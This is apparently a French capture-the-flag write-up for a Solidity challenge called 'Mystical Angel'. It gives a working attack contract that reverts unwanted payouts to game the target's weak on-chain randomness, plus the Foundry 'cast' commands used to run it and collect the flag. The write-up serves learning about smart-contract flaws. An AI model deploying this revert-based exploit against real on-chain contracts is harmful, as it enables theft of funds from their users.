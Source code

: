 # Mystical Angel - K.L.M

## Contrat
Ce contrat est une simulation d'un jeu similaire à un pile ou face avec un ange (?).

Notre but est de remplir la condition "isSolved()", pour ce faire, nous remarquons que nous devons appeler la fonction :
```solidity
function ascend() public payable {
        require(blessings[msg.sender] >= 10,"You have not proved your worthiness :((");
        solved = true;
    }
```

Afin d'obtenir 10 blessings, nous nous intéressons à la partie du code suivante:
```solidity
function Blessing() public payable {
    require(msg.value == 1 ether, "You must pay the right to get your blessing");
    uint256 randomNumber = uint256(keccak256(abi.encodePacked(seed, msg.sender, block.prevrandao, block.timestamp)));
    uint256 AngelNumber = randomNumber % 2;

    if (AngelNumber == 1) {
        (bool sent, ) = msg.sender.call{value: 1 ether}("");
        require(sent, "Failed to send Ether");
        blessings[msg.sender] += 1;
    }

    if (AngelNumber == 0) {
        (bool sent, ) = msg.sender.call{value: 1 ether}("");
        require(sent, "Failed to send Ether");
        blessings[msg.sender] = 0;
    }
}
```
Il calcule une valeur "random" dont nous n'avons pas connaissance, puis en fonction de sa valeur, il nous renvoie une transaction contenant 0 ou 1 ether puis nous ajoute un blessing ou nous les retire tous. 

## Solve

Une manière simple de réussir à obtenir uniquement des bonnes conditions viserait à ne jamais rentrer dans l'instruction : `blessings[msg.sender] = 0;` et pour ça nous pouvons utiliser une petite astuce : Rejeter tout envoi de fonds qui n'est pas égal à 1 ether.

Mais comment on fait K.L.M ?

Comme ça !
```solidity
fallback() payable external{
        if (msg.value != 1 ether){
            revert();
        }
    }
```

Maintenant on écris un contrat d'attaque (dispo dans le dossier sous le nom attack.sol):

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface mysticalAngel{
     function Blessing() external payable;
     function ascend() external payable;
}

contract Attack {

    mysticalAngel public angel;

    function setTarget(address _angel) public {
        angel = mysticalAngel(_angel);
    }

    function attack() public payable {
        angel.Blessing{value: 1 ether}();
    }

    function win() public {
        angel.ascend();
    }


    fallback() payable external{
        if (msg.value != 1 ether){
            revert();
        }
    }
}
```

Maintenant il ne reste plus qu'à le déployer, exporter nos variables d'environnement sous la forme : \$ATK = adresse du contrat attack, \$TAR = adresse du contrat cible, \$PK = clé privée, \$RPC = URL du RPC
Et à realiser la suite de commande suivante :

```bash
cast send $ATK "setTarget(address)" $TAR -r $RPC --private-key $PK
cast send $ATK "attack()" -r $RPC --private-key $PK --value 1ether # pour envoyer 1 ether au contrat pour pouvoir call la fonction, si ce n'est pas bon, il faut réessayer.

cast b $ATK -r $RPC # par exemple ici ce n'était pas bon.
0

cast send $ATK "attack()" -r $RPC --private-key $PK --value 1ether
cast b $ATK -r $RPC
1000000000000000000 # ça a fonctionné

cast send $ATK "attack()" -r $RPC --private-key $PK # à répeter autant de fois que nécessaire

cast call $TAR "blessings(address)(uint256)" $ATK -r $RPC
13 # supérieur à 10, on est bon !
```

Win !
On récupère ensuite notre flag sur la plateforme.
